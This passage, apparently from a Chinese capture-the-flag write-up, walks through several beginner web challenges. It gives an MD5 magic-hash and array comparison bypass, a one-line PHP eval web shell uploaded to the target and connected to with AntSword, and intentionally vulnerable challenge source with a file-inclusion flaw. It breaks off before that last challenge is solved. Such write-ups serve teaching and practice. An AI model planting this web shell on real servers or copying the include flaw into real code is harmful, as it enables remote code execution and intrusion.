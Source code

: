 ```
?name=QNKCDZO&name2[]=1
password=240610708&password2[]=2
```

得到flag



### [Week1] A Dark Room

文字游戏，不管，我们先打开源码，在最底下找到flag



### **[Week1] upload**

我们往php文件里写一个一句话木马

```
<?php @eval($_POST[1]);?>
```

直接上传，代码不用管

我们在右下角找到上传的图片

![image-20240815202603866](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408152026918.png)

在新页面打开，复制链接去蚁剑，进行连接，找到flag

![image-20240815202635456](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408152026506.png)



### [Week1] Aura 酱的礼物

```
<?php
highlight_file(__FILE__);
// Aura 酱，欢迎回家~
// 这里有一份礼物，请你签收一下哟~
$pen = $_POST['pen'];
if (file_get_contents($pen) !== 'Aura')
{
    die('这是 Aura 的礼物，你不是 Aura！');
}

// 礼物收到啦，接下来要去博客里面写下感想哦~
$challenge = $_POST['challenge'];
if (strpos($challenge, 'http://jasmineaura.github.io') !== 0)
{
    die('这不是 Aura 的博客！');
}

$blog_content = file_get_contents($challenge);
if (strpos($blog_content, '已经收到Kengwang的礼物啦') === false)
{
    die('请去博客里面写下感想哦~');
}

// 嘿嘿，接下来要拆开礼物啦，悄悄告诉你，礼物在 flag.php 里面哦~
$gift = $_POST['gift'];
include($gift);
```
